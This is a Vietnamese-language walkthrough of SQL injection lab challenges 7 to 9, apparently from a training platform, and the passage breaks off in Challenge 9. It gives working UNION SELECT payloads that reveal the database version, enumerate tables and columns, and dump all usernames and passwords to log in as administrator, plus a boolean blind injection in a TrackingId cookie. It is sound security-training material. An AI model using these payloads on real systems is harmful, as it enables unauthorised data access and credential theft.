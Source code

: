 ##### 7. Challenge 7

![Screenshot 2025-05-27 145449](https://github.com/user-attachments/assets/0fb53138-f5c2-431c-97d4-da36d9e644d8)

**Giải pháp**
1. Sử dụng Burp Suite để chặn và sửa đổi yêu cầu thiết lập bộ lọc danh mục sản phẩm.
2. Xác định số cột được truy vấn trả về và những cột nào chứa dữ liệu văn bản. Xác minh rằng truy vấn trả về hai cột, cả hai đều chứa văn bản, bằng cách sử dụng tải trọng như sau trong tham `category`số:
    
    `'+UNION+SELECT+'abc','def'#`
3. Sử dụng đoạn mã sau để hiển thị phiên bản cơ sở dữ liệu:
    
    `'+UNION+SELECT+@@version,+NULL#`

![Screenshot 2025-05-27 145547](https://github.com/user-attachments/assets/375c0b97-d58e-433e-b5a0-18b49d3723a3)

##### 8. Challenge 8

![Screenshot 2025-05-27 145616](https://github.com/user-attachments/assets/7bb9adaa-531f-4d9b-bf34-c9c420c1c435)

**Giải pháp**
1. Sử dụng Burp Suite để chặn và sửa đổi yêu cầu thiết lập bộ lọc danh mục sản phẩm.
2. Xác định số cột được truy vấn trả về và những cột nào chứa dữ liệu văn bản. Xác minh rằng truy vấn trả về hai cột, cả hai đều chứa văn bản, bằng cách sử dụng tải trọng như sau trong tham `category`số:
    
    `'+UNION+SELECT+'abc','def'--`
3. Sử dụng lệnh sau để lấy danh sách các bảng trong cơ sở dữ liệu:
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Tìm tên của bảng chứa thông tin đăng nhập của người dùng.
5. Sử dụng lệnh sau (thay thế tên bảng) để lấy thông tin chi tiết về các cột trong bảng:
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Tìm tên các cột chứa tên người dùng và mật khẩu.
7. Sử dụng đoạn mã sau (thay thế tên bảng và tên cột) để lấy tên người dùng và mật khẩu của tất cả người dùng:
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Tìm mật khẩu của `administrator`người dùng và sử dụng nó để đăng nhập.

![Screenshot 2025-05-27 145642](https://github.com/user-attachments/assets/f67e2085-8cc6-4e3e-8e78-84b854bdc6ab)

##### 9. Challenge 9

![Screenshot 2025-05-27 145704](https://github.com/user-attachments/assets/838afe0a-0cb4-435e-9597-3ede53eec745)

**Giải pháp**
1. Truy cập trang chủ của cửa hàng và sử dụng Burp Suite để chặn và sửa đổi yêu cầu chứa `TrackingId`cookie. Để đơn giản, hãy nói rằng giá trị ban đầu của cookie là `TrackingId=xyz`.
2. Sửa đổi `TrackingId`cookie thành:
    
    `TrackingId=xyz' AND '1'='1`
    
    Xác minh rằng `Welcome back`tin nhắn xuất hiện trong phản hồi.
    